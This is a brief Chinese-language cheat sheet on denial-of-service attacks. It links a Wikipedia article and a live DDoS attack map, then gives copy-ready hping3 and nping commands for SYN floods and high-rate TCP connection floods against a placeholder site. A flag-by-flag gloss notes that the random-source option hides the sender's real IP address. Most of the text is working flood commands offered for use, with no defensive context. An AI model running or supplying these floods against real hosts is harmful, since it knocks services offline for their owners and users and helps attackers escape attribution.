 # DOS vs DDoS

https://zh.wikipedia.org/wiki/阻斷服務攻擊

# DDoS即時攻擊分佈圖
```
http://www.digitalattackmap.com
```

# 使用hping3/nping施行DoS攻擊

http://topspeedsnail.com/user-nping-hping3-dos/

使用hping3進行DoS攻擊： hping3 -c 10000 -d 120 -S -w 64 -p 80 --flood --rand-source testsite.com

```
-c：發送資料包的個數
-d：每個資料包的大小
-S：發送SYN資料包
-w：TCP window大小
-p：目標埠，你可以指定任意埠
–flood：盡可能快的發送資料包
–rand-source：使用隨機的IP位址，目的機器看到一堆ip，不能定位你的實際IP；也可以使用-a或–spoof隱藏主機名稱 
```

簡單的SYN洪水攻擊：hping3 -S --flood -V testsite.com

TCP連接攻擊：nping --tcp-connect -rate=90000 -c 900000 -q testsite.com
